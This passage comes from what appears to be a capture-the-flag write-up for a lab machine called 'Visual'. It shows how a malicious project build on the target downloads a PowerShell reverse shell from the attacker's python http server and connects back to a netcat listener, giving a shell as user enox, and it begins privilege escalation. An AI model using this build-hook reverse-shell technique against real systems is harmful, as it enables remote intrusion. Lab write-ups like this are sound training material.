 ### Running the exploit

Head to the directory where we have out revshell.ps1 file
Start a python http server with the port we used in the .csproj file
``` bash
$ python3 -m http.server 8000
```

Also setup a netcat listener with the port we used in the revshell.ps1 file
``` bash
$ nc -lvnp 1234
```

Now if we build our project again in the target machine, it will download the reverse shell from out machine
![](Visual/revshelldownload.png)

And we get a shell on our netcat listener
![](Visual/netcatshell.png)

We now have a shell as the user enox
``` cmd
$ whoami
visual\enox
```

We can just get the user.txt file from the user's desktop
``` cmd
cd C:\Users\enox\Desktop
type user.txt
1330b09f170648444f8729b38eccb044
```

## PrivEsc

### NT Authority\Local Service

I headed to the uploads directory, where the compiled projects were saved to

``` cmd
cd C:\xampp\htdocs\uploads
dir
```

There was a todo.txt file in the directory